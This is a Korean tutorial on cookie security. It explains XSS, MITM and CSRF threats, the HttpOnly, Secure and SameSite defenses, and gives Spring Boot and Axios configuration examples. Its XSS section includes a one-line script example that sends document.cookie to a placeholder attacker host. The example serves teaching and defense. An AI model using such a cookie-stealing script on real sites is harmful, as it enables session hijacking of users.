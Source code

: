```yaml
---
Date: 2024-12-24
Category: Auth
---
```

### ✅ **1. 쿠키(Cookie)란?**

- **쿠키(Cookie)** 는 클라이언트(브라우저) 측에서 저장되는 **작은 데이터 조각** 이다.
- 주로 **세션 관리, 사용자 인증, 개인화된 설정**을 유지하는 데 사용된다.

---

# 🛡️ **2. 쿠키 공격 벡터**

일반적인 쿠키가 탈취당하는 주요 방법은 다음과 같다:

## ⚠️ **2.1 XSS (Cross-Site Scripting) 공격**

- **공격 방법:** 공격자가 웹 페이지에 **악성 JavaScript 코드를 삽입**한다.
- **목적:** JavaScript를 통해 `document.cookie`로 쿠키를 탈취한다.

**예시:**

```javascript
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```

- **HttpOnly 쿠키는?**
    - JavaScript로 접근할 수 없기 때문에 `document.cookie`로 가져올 수 없다.

**✅ 결론:** **HttpOnly가 XSS 공격으로부터 안전합니다.**

---

## ⚠️ **2.2 중간자 공격 (Man-in-the-Middle, MITM)**

- **공격 방법:** HTTP로 전송되는 쿠키를 공격자가 가로챈다.
- **Secure 쿠키는?**
    - `Secure` 속성이 설정된 쿠키는 **HTTPS를 통해서만 전송**된다.
    - HTTP로 전송되지 않기 때문에 가로챌 수 없습니다.

**✅ 결론:** **Secure가 MITM 공격으로부터 안전합니다.**

---

## ⚠️ **2.3 CSRF (Cross-Site Request Forgery)**

- **공격 방법:** 사용자가 로그인한 상태에서 악성 웹 사이트가 요청을 자동으로 보낸다.
- **SameSite 쿠키는?**
    - `SameSite=Strict`: 다른 도메인에서는 쿠키를 보내지 않는다.
    - `SameSite=Lax`: 외부 링크 클릭 시만 쿠키 전송.

**✅ 결론:** **SameSite가 CSRF 공격으로부터 안전하다.**

---

# 🔐 **3. HttpOnly Secure 쿠키의 보안 원리**

### ✅ **3.1 HttpOnly: JavaScript 접근 차단**

- **HttpOnly** 속성이 설정된 쿠키는 JavaScript로 접근할 수 없다.
- 브라우저가 `document.cookie`를 통해 HttpOnly 쿠키를 노출하지 않는다.

**예시 (HttpOnly 쿠키):**

```http
Set-Cookie: sessionId=abc123; HttpOnly
```

**JavaScript에서 접근 시:**

```javascript
console.log(document.cookie); 
// 출력: 다른 쿠키는 보이지만, HttpOnly 쿠키는 보이지 않음
```

**✅ 핵심:**

- **XSS 공격자가 쿠키에 접근할 수 없음.**

---

### ✅ **3.2 Secure: HTTPS로만 전송**

- **Secure** 속성이 설정된 쿠키는 **HTTPS를 통해서만 전송**된다.
- HTTP 통신에서는 쿠키가 전송되지 안는다.

**예시 (Secure 쿠키):**

```http
Set-Cookie: sessionId=abc123; Secure
```

**✅ 핵심:**

- **중간자 공격(MITM)이 HTTPS를 우회하지 않는 이상 탈취 불가능.**

---

### ✅ **3.3 SameSite: CSRF 방어**

- **SameSite=Strict:** 쿠키는 동일 사이트 요청에서만 전송된다.
- **SameSite=Lax:** 다른 사이트의 링크를 클릭할 때만 쿠키가 전송된다.

**예시 (SameSite 쿠키):**

```http
Set-Cookie: sessionId=abc123; HttpOnly; Secure; SameSite=Strict
```

**✅ 핵심:**

- **다른 사이트에서 자동으로 요청이 실행되지 않음.**

---

# 🧠 **4. HttpOnly Secure 쿠키가 안전한 이유 요약**

|**속성**|**기능**|**방어하는 공격**|
|---|---|---|
|**HttpOnly**|JavaScript 접근 차단|**XSS (Cross-Site Scripting)**|
|**Secure**|HTTPS를 통해서만 쿠키 전송|**MITM (Man-in-the-Middle)**|
|**SameSite**|외부 사이트에서 쿠키 자동 전송 차단|**CSRF (Cross-Site Request Forgery)**|

---

# 🛠️ **5. HttpOnly Secure 쿠키 설정 방법**

### ✅ **5.1 Spring Boot 예시**

```java
ResponseCookie jwtCookie = ResponseCookie.from("refreshToken", token)
    .httpOnly(true)        // JavaScript 접근 차단
    .secure(true)          // HTTPS로만 전송
    .sameSite("Strict")    // CSRF 방어
    .path("/")             // 모든 경로에서 사용 가능
    .maxAge(Duration.ofDays(7)) // 7일 유지
    .build();

response.addHeader("Set-Cookie", jwtCookie.toString());
```

---

### ✅ **5.2 클라이언트 설정 (Axios 예제)**

**Axios로 쿠키 자동 전송:**

```typescript
import axios from 'axios';

axios.defaults.withCredentials = true; // 쿠키 자동 전송
axios.post('https://api.example.com/login', { username, password });
```

---

# 🚦 **6. HttpOnly Secure 쿠키는 완벽할까?**

### ✅ **보안 강점:**

1. **XSS 방어:** JavaScript로 접근 불가.
2. **MITM 방어:** HTTPS를 통해서만 전송.
3. **CSRF 방어:** SameSite 설정으로 외부 요청 차단.

### ⚠️ **한계점:**

1. **물리적 탈취:** 사용자의 디바이스가 탈취되면 쿠키를 열어볼 수 있다.
2. **브라우저 취약점:** 브라우저 보안에 취약점이 있을 경우 노출 가능.
3. **로그아웃 관리:** 서버에서 쿠키를 강제로 무효화할 수 없음.

**→ 이 한계를 보완하기 위해 Redis를 사용하여 Refresh Token을 중앙 관리한다.**

---

# 🎯 **7. 최종 결론**

- **HttpOnly Secure 쿠키는 클라이언트 측 토큰 저장의 최적 방법이다.**
- **JavaScript 접근 차단 (XSS 방어)**, **HTTPS 통신 (MITM 방어)**, **CSRF 방어**를 제공한다.
- **완벽한 보안을 위해:**
    1. **HttpOnly Secure 쿠키로 Refresh Token 저장**
    2. **Redis로 중앙 집중식 관리**

---

# 🚀 **8. 추천 보안 조치**

1. **HttpOnly + Secure + SameSite=Strict 쿠키 사용**
2. **Access Token은 짧은 유효 기간 설정**
3. **Redis로 Refresh Token 중앙 관리 및 TTL 설정**
4. **모니터링 도구로 쿠키 및 Redis 상태 점검**

---

이제 HttpOnly Secure 쿠키가 왜 안전한지 명확해졌나요? 😊  
더 깊이 알고 싶은 부분이나 추가 질문이 있다면 말씀해주세요! 🚀🔐